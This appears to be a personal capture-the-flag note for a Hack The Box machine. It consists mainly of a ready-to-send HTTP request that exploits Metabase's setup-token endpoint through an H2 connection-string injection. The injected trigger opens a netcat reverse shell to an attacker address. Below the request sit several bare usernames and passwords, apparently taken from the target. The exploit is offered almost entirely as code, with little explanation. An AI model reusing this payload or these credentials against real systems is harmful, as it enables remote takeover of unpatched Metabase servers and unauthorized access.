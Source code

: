 ```yaml
---
category: Uncategorized
tags: []
created: 2024-12-21

---
```

POST /api/setup/validate HTTP/1.1

Host: data.analytical.htb

Content-Type: application/json

Content-Length: 769



{

    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",

    "details":

    {

        "is_on_demand": false,

        "is_full_sync": false,

        "is_sample": false,

        "cache_ttl": null,

        "refingerprint": false,

        "auto_run_queries": true,

        "schedules":

        {},

        "details":

        {

            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {nc,10.10.14.12,1234,-e,/bin/sh}')\n$$--=x",

            "advanced-options": false,

            "ssl": true

        },

        "name": "an-sec-research-team",

        "engine": "h2"

    }

}












root:f80006ccdc7

db user=GUEST
password=GUEST


metalytics
An4lytics_ds20223#
